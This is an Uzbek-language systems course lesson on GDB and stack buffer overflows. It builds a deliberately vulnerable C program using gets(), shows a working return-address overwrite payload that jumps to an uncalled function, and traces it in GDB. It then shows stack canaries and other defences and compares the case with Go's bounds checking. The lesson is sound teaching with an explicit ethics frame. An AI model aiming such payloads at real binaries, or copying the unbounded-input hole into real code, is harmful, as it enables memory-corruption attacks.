




# 11. GDB va Buffer Overflow — stack'ni buzish va himoya

> Manba: CS:APP 2-nashr, 3.11-3.12 · Muhit: Ubuntu 24.04 x86-64 (Docker), gcc 13.3.0 · [← Oldingi](10-arrays-structs-pointers.md) · [Kurs xaritasi](00-README.md) · [Keyingi →](12-cpu-pipeline.md)

## Nima uchun kerak

Buffer overflow — dasturiy ta'minot tarixidagi eng uzoq umr ko'rgan xavfsizlik zaifligi sinfi: 1988-yildagi Morris Worm'dan bugungi CVE'largacha. Microsoft va Google statistikasiga ko'ra, ularning xavfsizlik xatolarining **~70% memory safety** muammosidan kelib chiqadi — aynan shu darsda mashina darajasida ochiladigan tuzoq. Sen 01-darsda "nega C xavfli, Go himoyalangan" degan savolni ko'rgansan; endi javobni **o'z ko'zing bilan** ko'rasan: return address'ni stack'da qanday ustidan yozib bo'lishini va nega Go'da bu mumkin emasligini.

Bundan tashqari, **GDB o'qish** har bir backend dev uchun debugging superkuchi: production'dagi crash dump'ni, `SIGSEGV`ni, panic stack trace'ni tahlil qilganingda sen 09-darsdagi stack tuzilishini GDB orqali "jonli" ko'rasan. Bu dars 3-bobning (machine-level) kulminatsiyasi: 06-registers, 07-arithmetic, 08-control flow, 09-stack frame va return address, 10-array/buffer — barchasi bitta amaliy exploit'da birlashadi.

> **ETIK RAMKA.** Bu dars ta'lim va **mudofaa** maqsadida yozilgan. Barcha exploit'lar **o'z muhitimizda** (Docker konteyner), **o'z dasturimizga** qarshi, himoyalar **ataylab o'chirilgan** holatda ko'rsatiladi. Bu — qonuniy security ta'lim: hujumni tushunmasang, himoyani qura olmaysan. Boshqaning tizimiga ruxsatsiz bunday narsani sinash — jinoyat.

## Nazariya

### 1. GDB — dasturni "jonli" kuzatish

Shu paytgacha (06-10-darslar) biz dastur xatti-harakatini faqat **kodga qarab** taxmin qildik. GDB (GNU Debugger) esa dasturni **ishlab turganda to'xtatib**, registerlar va xotirani real vaqtda ko'rish imkonini beradi. Analogiya: kino tasmasini istalgan kadrda **pauza** qilib, ekrandagi har bir pikselni kattalashtirib ko'rish.

Asosiy ish sxemasi: qiziq nuqtaga **breakpoint** qo'yasan, dasturni **run** qilasan, breakpoint'ga yetganda dastur to'xtaydi va boshqaruv senga qaytadi. Keyin register/xotirani turli formatda tekshirasan.

| GDB buyruq | Nima qiladi |
| ---------- | ----------- |
| `break echo` / `break *0x401a17` | funksiya kirishiga yoki aniq address'ga breakpoint |
| `run` / `continue` | dasturni ishga tushirish / davom ettirish |
| `stepi` / `nexti` | bitta instruksiya qadamlash (nexti call ichiga kirmaydi) |
| `disassemble echo` | funksiyani disassemble qilish |
| `info registers` | barcha registerlar qiymati |
| `info symbol 0x4019a5` | address qaysi funksiya/simvolga tegishli |
| `backtrace` (`bt`) | stack'dagi chaqiruvlar zanjiri (return address'lar) |
| `print $rsp` | register yoki ifoda qiymatini chop etish |

Eng kuchli buyruq — **`x/` (examine memory)**: xotirani xohlagan formatda o'qiydi. Format = **son + o'lcham + tur**:

| `x/` formati | Ma'nosi |
| ------------ | ------- |
| `x/gx addr` | 1 ta **g**iant (8 bayt) qiymatni **x**ex ko'rinishda |
| `x/i addr` | o'sha address'dagi bitta **i**nstruksiyani disassemble |
| `x/32bx addr` | 32 ta **b**ayt, **x**ex ko'rinishda |
| `x/w addr` | bitta **w**ord (4 bayt) |

Bu darsda aynan `x/gx` (return address slot'ini o'qish), `x/i` (`ret` instruksiyasini ko'rish), `x/32bx` (buf baytlarini ko'rish) va `info symbol` bilan return address'ning buzilishini o'z ko'zimiz bilan ko'ramiz.

### 2. Out-of-bounds — C chegara tekshirmaydi

10-darsda ko'rdik: `A[i]` — bu shunchaki `base + i*size` hisobi. Muhimi — **C bu `i` chegarada ekanligini tekshirmaydi**. `char buf[16]` bo'lsa ham, `buf[100] = 'A'` yozsang, kompilyator hech qanday e'tiroz bildirmaydi — u shunchaki `base + 100` manziliga yozadi. Bu manzil buf chegarasidan tashqarida, **boshqa birovning** xotirasida bo'lishi mumkin.

09-darsda esa lokal o'zgaruvchilar (jumladan lokal massivlar) **stack**'da, saqlangan registerlar va **return address** yonida saqlanishini ko'rdik. Mana shu ikki fakt birlashganda falokat tug'iladi.

### 3. Buffer overflow mexanikasi — return address'ni bosib o'tish

Stack past address tomon o'sadi, lekin massivga yozish **yuqori** address tomon boradi. Demak lokal `buf[N]` dan oshiq yozsang, yozuv **saved register**lar va **return address** ustidan bosadi. 09-darsda ko'rgan frame layout aynan shu — endi u xavf manbaiga aylanadi:



Yuqori address'da return address, past'da buf. gets pastdan yuqoriga yozadi, shuning uchun buf to'lgach yozuv avval saved register'ni, keyin return address'ni ustidan bosadi. Buzilish **kumulyativ**: input qancha uzun bo'lsa, shuncha ko'p holat buziladi:

| Kiritilgan baytlar | Qo'shimcha buzilgan holat |
| ------------------ | ------------------------- |
| 0-16 | hech narsa (buf ichida) |
| 17-24 | saved `%rbx` |
| 25-32 | **return address** |
| 32+ | caller frame'idagi holat |

### 4. gets() zaifligi — uzunlik olmaydi

`gets(buf)` funksiyasi standart input'dan qator o'qib, `buf`ga ko'chiradi — lekin **buf necha bayt sig'dirishini bilmaydi**. U faqat `\n` yoki EOF'gacha o'qiydi va nima kelsa, hammasini yozaveradi. Chegara parametri **yo'q**. Aynan shuning uchun bu funksiya C standartidan **butunlay olib tashlangan** va gcc kompilyatsiyada ogohlantiradi: "gets is dangerous". Xuddi shu kasallik `strcpy`, `strcat`, `sprintf`da ham bor — ular ham maqsad buferining o'lchamini so'ramaydi.

### 5. Exploit — return address'ni o'g'irlash (control-flow hijacking)

Oddiy overflow return address'ni **axlat** bilan to'ldiradi va dastur `ret`da yaroqsiz manzilga sakrab **crash** (SIGSEGV) bo'ladi. Lekin hujumchi return address'ni **axlat emas, aniq bir manzil** bilan to'ldirsa-chi? U holda `ret` o'sha **tanlangan** funksiyaga sakraydi.

09-darsda muhim faktni ko'rgan edik: **`ret` "qayerga qaytishni" o'zi bilmaydi** — u ko'r-ko'rona `%rsp` ko'rsatgan qiymatni oladi va o'sha yerga sakraydi. Agar shu qiymatni biz nazorat qilsak, dastur oqimini **biz** boshqaramiz. Buni **control-flow hijacking** deyiladi: dastur o'zi hech qachon chaqirmagan kodni bajarishga majbur qilinadi.



### 6. Himoyalar — to'rt qatlamli mudofaa

Buffer overflow shunchalik ko'p muammo keltirdiki, kompilyator va OS to'rtta standart himoya kiritdi. Ular hujumchidan **maxsus harakat talab qilmaydi** va deyarli tekin:

| Himoya | G'oyasi | Nimani to'xtatadi |
| ------ | ------- | ----------------- |
| **Stack canary** (stack protector) | buf va saved holat orasiga tasodifiy "kanareyka" qiymat qo'yiladi; `ret`dan oldin tekshiriladi | return address ustidan yozishni **aniqlaydi** |
| **ASLR** (address space layout randomization) | stack/heap/kutubxona har ishga tushirishda **boshqa** address'ga yuklanadi | hujumchi manzilni **oldindan bila olmaydi** |
| **NX / DEP** (non-executable stack) | stack sahifasi "kod bajarilmaydigan" deb belgilanadi | stack'ga tashlangan **shellcode**ni bajarishni bloklaydi |
| **PIE** (position-independent executable) | dastur kodi ham har safar boshqa address'ga yuklanadi | funksiya address'larini ham randomlashtiradi |

Kanareyka (canary) tarixiy analogiya: konchilar shaxta gazini aniqlash uchun kanareyka qush olib tushishar edi — qush o'lsa, gaz bor. Bu yerda "gaz" — buffer overflow. Canary qiymat 09-darsda ko'rgan `%fs:40` (thread-local) dan olinadi, buzilsa `__stack_chk_fail` dasturni to'xtatadi.

Bu himoyalar **ketma-ket to'siqlar** (defense-in-depth) sifatida ishlaydi: hujum har birini alohida yengishi kerak. Klassik "stack'ga shellcode + return address'ni unga yo'naltirish" hujumi shu to'siqlarga qanday urilishini ko'ramiz:



Bizning 4-5-misollarimiz eng chap yo'ldan bordi: canary **o'chirilgan** (yashil to'siq yo'q), address `-no-pie` tufayli **ma'lum**, va biz stack'ga kod tashlamay mavjud `secret()`ga sakradik (NX'ni chetlab o'tdik). Ana shu uch shart bir vaqtda bajarilgani uchun exploit ishladi. Real zamonaviy binary'da uchala to'siq ham yoqilgan.

## Kod va isbot

Endi nazariyani amalda ko'ramiz. Muhit izohi: C dastur x86-64'da kompilyatsiya qilingan. Standart konteynerda (QEMU) GDB **jonli** debug qila olmaydi (ptrace yo'q), shuning uchun GDB sessiyasi **alohida muhitda** (qemu-user gdbserver + gdb-multiarch, static binary) o'tkazilgan. U yerda `secret` address `0x4019a5` (static linking), standalone exploit'da esa dynamic binary'da `0x4011b6`. **Offset (24 bayt) ikkalasida ham bir xil** — bu darsning asosiy raqami. Address farqi static vs dynamic linking'dan (19-20-darslarda) kelib chiqadi; buni halol aytamiz.

### 0-misol: zaif dastur — `vuln.c`

```c
#include <stdio.h>
#include <string.h>

void secret(void)
{
    printf(">>> secret() chaqirildi! Bu hech qachon chaqirilmasligi kerak edi.\n");
    fflush(stdout);
}

void echo(void)
{
    char buf[16];
    printf("Kiriting: ");
    gets(buf);          /* XAVFLI: chegara tekshirmaydi */
    printf("Siz kiritdingiz: %s\n", buf);
}

int main(void)
{
    setbuf(stdout, NULL);   /* buferlashsiz - crash'da ham chiqadi */
    echo();
    printf("main normal tugadi.\n");
    return 0;
}
```

`secret()` — dastur oqimida **hech qachon chaqirilmaydigan** funksiya. Bizning maqsadimiz — uni faqat **input** orqali chaqirishga majbur qilish. `echo()` da `buf[16]` lokal massiv va uni to'ldiruvchi `gets()` — kasallik manbai.

Kompilyatsiya (himoyalar **o'chirilgan**, exploit ko'rsatish uchun):

```
gcc -Og -fno-stack-protector -no-pie -g -o vuln vuln.c
```

`-fno-stack-protector` canary'ni o'chiradi, `-no-pie` esa address'larni statik (bashorat qilinadigan) qiladi. gcc darhol ogohlantiradi: `gets` xavfli va deprecated — bu bejiz emas, zamonaviy koddan `gets` butunlay olib tashlangan.

### 1-misol: normal ishlash

`echo "salom" | ./vuln`:

```
Kiriting: Siz kiritdingiz: salom
main normal tugadi.
```

"salom" 5 bayt — `buf[16]`ga bemalol sig'adi, hech narsa buzilmaydi, `main normal tugadi`. Bu — **baseline**: keyin nima o'zgarishini shu bilan solishtiramiz.

### 2-misol: overflow -> crash (SIGSEGV)

`perl -e 'print "A"x40' | ./vuln`:

```
Kiriting: Siz kiritdingiz: (crash)
```

exit code: **139** (= 128 + 11 = **SIGSEGV**). 40 ta `'A'` (0x41) return address'ni `0x4141414141414141` bilan ustidan yozdi. `ret` o'sha yaroqsiz manzilga sakradi — u xotiraning bajarib bo'lmaydigan/mavjud bo'lmagan joyi, natijada protsessor **segmentation fault** beradi.

> Notional machine: `exit 139` — bu dasturning o'zi qaytargan qiymat emas. Bu OS'ning signali: dastur `0x4141...` manzilga sakraganda protsessor "bunday joy yo'q/bajarib bo'lmaydi" deb **SIGSEGV** signalini yubordi, shell esa `128 + signal_raqami` = `128 + 11 = 139` ni qaytardi.

> 🤔 **O'ylab ko'r:** Nega aynan 40 ta 'A' return address'ni to'liq buzdi, lekin 20 ta 'A' faqat crash bermas edi (yoki normal tugardi)?

<details>
<summary>💡 Javobni ko'rish</summary>

buf boshidan return address'gacha **24 bayt** (buf[16] + saved rbx[8]). 20 ta 'A' faqat buf va saved rbx'ning bir qismini buzadi, return address'ga yetmaydi — dastur (ehtimol) normal qaytishi mumkin. Return address'ni to'liq ustidan yozish uchun kamida 24 + 8 = 32 bayt kerak; 40 bayt esa uni ortig'i bilan buzadi va crash kafolatlanadi. Aniq offset'ni keyingi misolda hisoblaymiz.
</details>

### 3-misol: echo frame layout (objdump)

Offset'ni **taxmin qilmaymiz** — kompilyator qo'ygan real layout'ni ko'ramiz. `objdump -d ./vuln` (echo qismi, dynamic `-no-pie` binary):

```
<echo>:
	endbr64
	push   %rbx              # saved rbx (8 bayt)
	sub    $0x10,%rsp        # buf[16] uchun joy (16 bayt)
	...
	mov    %rsp,%rbx         # buf = rsp
	call   gets@plt          # gets(buf) - chegara tekshirmaydi
	...
	ret                      # return address'ga qaytadi
```

Frame'ni past->yuqori address bo'yicha yig'amiz:

| Address diapazoni | Nima | O'lcham |
| ----------------- | ---- | ------- |
| `rsp+0..15` | `buf[16]` | 16 bayt |
| `rsp+16..23` | saved `%rbx` | 8 bayt |
| `rsp+24..31` | **return address** | 8 bayt |

Demak **buf boshidan return address'gacha = 24 bayt**. 24 baytdan keyingi 8 bayt — aynan return address. Bu darsning eng muhim raqami: **offset = 24**.

Izoh: `call gets@plt` dagi `@plt` — dynamic linking mexanizmi (Procedure Linkage Table), uni 20-darsda batafsil ko'ramiz. Hozircha bu shunchaki "gets kutubxona funksiyasiga chaqiruv" degani.

### 4-misol: boshqariladigan EXPLOIT — secret() ni chaqirish

Endi crash emas, **maqsadli** hujum. `secret` address (dynamic `-no-pie` binary) = `0x4011b6`. Payload retsepti:

```
[ 24 bayt 'A' (padding) ] + [ secret address, 8 bayt little-endian ]
```

`perl -e 'print "A"x24 . pack("Q<",0x4011b6)' | ./vuln`:

```
Kiriting: Siz kiritdingiz: AAAAAAAAAAAAAAAAAAAAAAAA¶@
>>> secret() chaqirildi! Bu hech qachon chaqirilmasligi kerak edi.
```

exit: **139** (secret() bajarildi, keyin o'zi ham yaroqsiz manzilga qaytib crash). `pack("Q<", 0x4011b6)` — 8 baytli qiymatni little-endian (`Q<`) tartibda joylashtiradi: `b6 11 40 00 00 00 00 00`. Ekrandagi `¶@` — aynan `0xb6` (¶) va `0x40` (@) baytlarining ko'rinishi.

> **MUHIM.** Biz `echo` ichida `secret`ni hech qachon chaqirmadik — kod bunga umuman ega emas. Lekin **input** orqali return address'ni `secret` manziliga o'zgartirib, boshqaruvni o'g'irladik. Mana shu — control-flow hijacking: ma'lumot (input) kodga (control flow) aylandi. Xuddi shu texnika bilan hujumchi o'z shellcode'iga yoki `system("/bin/sh")` ga sakrashi mumkin.

> 🤔 **O'ylab ko'r:** Nega address `Q<` (little-endian) bilan qadoqlanadi, `Q>` (big-endian) bilan emas?

<details>
<summary>💡 Javobni ko'rish</summary>

x86-64 — **little-endian** arxitektura (02-darsda ko'rgan bayt tartibi). Xotirada eng kichik bayt eng past address'da turadi. `ret` return address'ni xuddi shu tartibda o'qiydi, shuning uchun `0x4011b6` xotirada `b6 11 40 00 ...` bo'lishi kerak. `Q>` (big-endian) yozsak, baytlar teskari (`00 00 40 11 ...`) bo'lib, `ret` yaroqsiz manzilga sakrardi.
</details>

### 5-misol: GDB jonli sessiya — return address buzilishini KO'RISH

Bu — darsning **smoking gun** kadri. Static binary'da (secret = `0x4019a5`) `echo` ning `ret` instruksiyasiga breakpoint qo'yib, `$rsp` (ret sakramoqchi bo'lgan joy) ni tekshiramiz. Ishlatilgan buyruqlar: `break`, `continue`, `x/i`, `x/gx`, `info symbol`, `x/32bx`.

```
Breakpoint 1, 0x0000000000401a17 in echo () at vuln.c:16
16	}
=== echo ret instruksiyasida ===
=> 0x401a17 <echo+77>:	ret
rsp ko'rsatgan qiymat (ret shu yerga sakraydi):
0x2aaaab2abc88:	0x00000000004019a5
secret in section .text                    <- GDB tasdiqlaydi: ret secret()ga sakraydi!
secret() haqiqiy address = 0x00000000004019a5
buf (rsp-24) dan boshlab 32 bayt:
0x2aaaab2abc70:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x2aaaab2abc78:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x2aaaab2abc80:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x2aaaab2abc88:	0xa5	0x19	0x40	0x00	0x00	0x00	0x00	0x00
```

Bu chiqishni qadam-baqadam o'qiymiz:

1. **`Breakpoint 1, 0x401a17 in echo () at vuln.c:16`** — dastur `echo`ning `ret` instruksiyasida to'xtadi (`vuln.c` 16-qatori — `echo`ning yopiluvchi `}`si).
2. **`=> 0x401a17 <echo+77>: ret`** — bu `x/i $pc` chiqishi: hozir bajariladigan instruksiya aynan `ret`.
3. **`0x2aaaab2abc88: 0x00000000004019a5`** — bu `x/gx $rsp`: `%rsp` ko'rsatgan slot'da `0x4019a5` turibdi. `ret` **aynan shu qiymatga** sakraydi.
4. **`secret in section .text`** — bu `info symbol 0x4019a5` chiqishi. GDB o'zi tasdiqlaydi: `0x4019a5` — bu `secret` funksiyasining boshi! Ya'ni `ret` to'g'ri `secret()`ga sakraydi.
5. **`buf ... 32 bayt`** — bu `x/32bx` chiqishi: 24 ta `0x41` (`'A'`) + `a5 19 40 00 00 00 00 00` (= `0x4019a5`, little-endian). Aynan bizning payload — 24 bayt padding + secret address.

Bu — buffer overflow'ning **to'liq isboti**: input'imizdagi `'A'`lar buf'ni to'ldirdi, keyingi 8 bayt aynan return address slot'iga tushdi va uni `secret` manziliga o'zgartirdi. GDB `info symbol` bilan buni **matn bilan** ("secret in section .text") tasdiqladi.

**Notional machine — `ret` aynan shu lahzada nima qiladi.** `ret` bitta instruksiya, lekin ichida ikki mikro-qadam bor (09-darsdagi `pop` + `jmp` sifatida tasavvur qil):

1. `%rsp` ko'rsatgan 8 baytni o'qiydi — bu `0x2aaaab2abc88` dagi `0x4019a5` (little-endian baytlar `a5 19 40 00 ...` shu tartibda birlashadi).
2. O'sha qiymatni `%rip` (program counter) ga yozadi va `%rsp` ni 8 ga oshiradi — protsessor keyingi instruksiyani endi `0x4019a5` dan, ya'ni `secret()` boshidan oladi.

Muhimi: protsessor bu qiymat "to'g'ri" yoki "buzilgan" ekanini **bilmaydi va tekshirmaydi** — u shunchaki `%rsp` dagi baytlarni `%rip` ga ko'chiradi. Bizning payload aynan shu baytlarni nazorat qilgani uchun keyingi bajariladigan kodni ham biz tanladik. Butun exploit sinfi shu bitta "ko'r-ko'rona ishonch" ustiga qurilgan.

> Halol eslatma: address'lar `0x2aaa...` — bu QEMU emulyatsiya artefakti. Native x86-64 Linux'da stack address'lar `0x7fff...` ko'rinishida bo'ladi. Address'ning aniq raqami muhim emas — muhimi **tuzilish**: buf -> saved rbx -> return address zanjiri, u ikkala muhitda ham bir xil (09-darsdagi kabi).

### 6-misol: HIMOYA 1 — Stack Canary

Endi **bir xil** `vuln.c`, faqat `-fno-stack-protector` **siz** (canary yoqilgan — bu zamonaviy gcc'da **default**):

```
gcc -Og -no-pie -g -o vuln_canary vuln.c
```

Xuddi shu exploit payload'ini yuboramiz:

`perl -e 'print "A"x24 . pack("Q<",0x4011b6)' | ./vuln_canary`:

```
Kiriting: Siz kiritdingiz: AAAAAAAAAAAAAAAAAAAAAAAA¶@
*** stack smashing detected ***: terminated
```

exit: **134** (= 128 + 6 = **SIGABRT**). Nima bo'ldi? 09-darsda ko'rgan canary (`%fs:40`) buf va return address orasida turadi. Bizning 24 bayt `'A'` buf'dan oshib **avval canary'ni** buzdi. `echo` qaytishdan oldin canary'ni original bilan solishtirdi (`subq %fs:40`), mos kelmadi — `__stack_chk_fail` chaqirilib, dastur **abort** qildi. **Exploit ISHLAMADI**: `secret()` chaqirilmadi.

Diqqat qil: `Siz kiritdingiz: ...¶@` qatori **hali chiqadi** (chunki `printf` `ret`dan oldin bajariladi), lekin `secret()` **yo'q**. Canary controlled crash beradi — hujumchiga boshqaruv o'tmaydi.

> 🤔 **O'ylab ko'r:** Nega exit code overflow'da 139 (SIGSEGV), lekin canary himoyasida 134 (SIGABRT)?

<details>
<summary>💡 Javobni ko'rish</summary>

139 = SIGSEGV — bu **nazoratsiz** crash: dastur allaqachon buzilgan return address'ga sakrab, yaroqsiz xotiraga tegdi. 134 = SIGABRT — bu **nazoratli** to'xtatish: `__stack_chk_fail` buzilishni `ret`dan **oldin** aniqlab, `abort()` chaqirdi. Canary'ning butun maqsadi — nazoratsiz crash (yoki hijack) o'rniga darhol, xavfsiz to'xtash.
</details>

### 7-misol: checksec-uslubidagi himoya jadvali

`checksec` — binary'da qaysi himoyalar yoqilganini ko'rsatuvchi vosita. Bizning ikki binary uchun real natijalar:

```
--- vuln (himoyasiz) ---
  Canary: YO'Q
  NX (stack): BOR (NX)
  PIE: YO'Q
--- vuln_canary ---
  Canary: BOR
  NX (stack): BOR (NX)
  PIE: YO'Q
```

Muhim nuqtalar:

- `vuln`da **Canary YO'Q** — shuning uchun 4-5-misollardagi exploit ishladi.
- Ikkalasida ham **NX BOR** — stack'da kod bajarib bo'lmaydi. Shuning uchun biz stack'ga shellcode **tashlamadik**, balki mavjud `secret()` funksiyasiga sakradik (bu NX'ni chetlab o'tadigan usul — ROP'ning eng oddiy ko'rinishi).
- Ikkalasida ham **PIE YO'Q** (`-no-pie` tufayli) — shuning uchun `0x4011b6` kabi **qat'iy** address bilan hujum qildik.

Sistemada `randomize_va_space = 2` (ASLR to'liq yoqilgan — Linux default). Agar biz **PIE** binary yasasak (gcc'da `-no-pie`siz default), `file` uni "pie executable" deb ko'rsatadi va **har ishga tushirishda** funksiya address'lari o'zgaradi. U holda `0x4011b6` kabi qat'iy address bilan exploit **ishlamaydi** — biz manzilni oldindan bila olmaymiz. ASLR chuqurroq 24-27-darslarda (virtual memory) ochiladi.

## Go dasturchiga ko'prik

Endi eng muhim savol: **nega bu hujum Go'da mumkin emas?** 01-darsdagi "C xavfli, Go himoyalangan" iborasining javobi shu.

### Go har massiv murojaatini tekshiradi (bounds check)

08-darsda ko'rgan edik: Go'da `buf[i]` har doim **bounds check** bilan keladi. Kompilyator har indeks murojaati oldiga taxminan shunday kod qo'yadi (08-darsdagi `CMPQ; JCC panic` naqshi):

```
CMPQ  i, len(buf)      // i chegarada mi?
JCC   panic_out_of_range // yo'q bo'lsa -> panic
```

Agar `i >= len(buf)` bo'lsa, Go **xotirani buzmaydi** — u `panic: runtime error: index out of range` beradi va **nazorat ostida** to'xtaydi. C'dagi jimgina out-of-bounds yozuv Go'da mavjud emas.

C'dagi `vuln.c`ning Go'dagi "ekvivalenti" quyidagicha ko'rinadi va u overflow'ni **taqiqlaydi** (kontseptual misol):

```go
// --- 1-qadam: cheklangan buffer ---
var buf [16]byte

// --- 2-qadam: chegaradan tashqariga yozishga urinish ---
func write(i int, b byte) {
    buf[i] = b   // Go har murojaatga bounds check qo'yadi
}
```

`write(100, 'A')` chaqirilsa, C `base + 100` ga jimgina yozardi va return address'ni buzardi. Go esa runtime'da `runtime error: index out of range [100] with length 16` panic beradi — **hech qanday** stack buzilishi yo'q, control-flow hijacking imkonsiz. Ya'ni 4-misoldagi exploit Go'da hatto **boshlanmaydi ham**.



### gets yo'q, funksiyalar uzunlik oladi

Go'da `gets` kabi **chegarasiz** funksiya umuman **yo'q**. Standart usullar har doim uzunlikni biladi:

- `bufio.Scanner` — qatorlarni cheklangan buferga o'qiydi.
- `io.Reader.Read(p []byte)` — `p` slice'ining `len`i qancha bo'lsa, shuncha o'qiydi, ortig'ini emas.

`slice` header o'zida `len` va `cap` ni olib yuradi (10-darsda ko'rgan 24 baytli header), shuning uchun runtime har doim chegarani biladi. C'dagi `char *` esa faqat pointer — uzunlik ma'lumoti umuman yo'q.

### Pointer arifmetika faqat `unsafe` orqali

Go'da `p + 1` kabi pointer arifmetika **taqiqlangan** — u faqat `unsafe` package orqali mumkin, va bunday kod alohida **audit** qilinadi. Demak "tasodifan" chegaradan chiqib ketolmaysan. Shuning uchun klassik stack smashing Go'da **mumkin emas**: memory safety til darajasida ta'minlangan.

### Lekin — xavf butunlay yo'qolmadi

Halol bo'laylik: Go **"memory safe"**, lekin ikkita teshik bor.

1. **`unsafe` package** — pointer arifmetikani ochadi, himoyani chetlab o'tadi. Shuning uchun uni faqat zarur bo'lganda va ehtiyot bilan ishlat.
2. **cgo** — Go'dan C kutubxonasini chaqirasan, va o'sha C kodi to'liq shu darsdagi zaifliklarga ochiq. Go'ning himoyasi C chegarasida tugaydi.

